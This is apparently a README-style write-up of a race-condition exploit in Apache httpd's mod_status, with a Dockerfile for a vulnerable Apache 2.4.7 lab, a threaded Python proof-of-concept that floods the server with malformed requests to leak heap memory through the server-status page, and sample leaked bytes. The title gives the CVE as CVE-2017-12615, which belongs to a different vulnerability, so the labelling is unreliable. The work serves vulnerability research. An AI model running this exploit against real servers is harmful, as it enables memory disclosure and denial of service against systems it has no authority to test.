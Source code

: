 # CVE-2017-12615

## Description 
Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.

## Bug overview
![](CVE1-code_flow_diagram.png)

## Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like  
![](server1.png)
![](server2.png)

As we can see, the server logs the requests in the format  
`Server x-x (xxx): x|x|x [status] ... IP {REQUEST} [IP]` 
All we are interested in is the `{REQUEST}` field inside the curly brackets. We can safely ignore all other html tags and other fields in the response from the server while exploitation. 


## Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception, e:
        print e
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```


## Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap
```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 
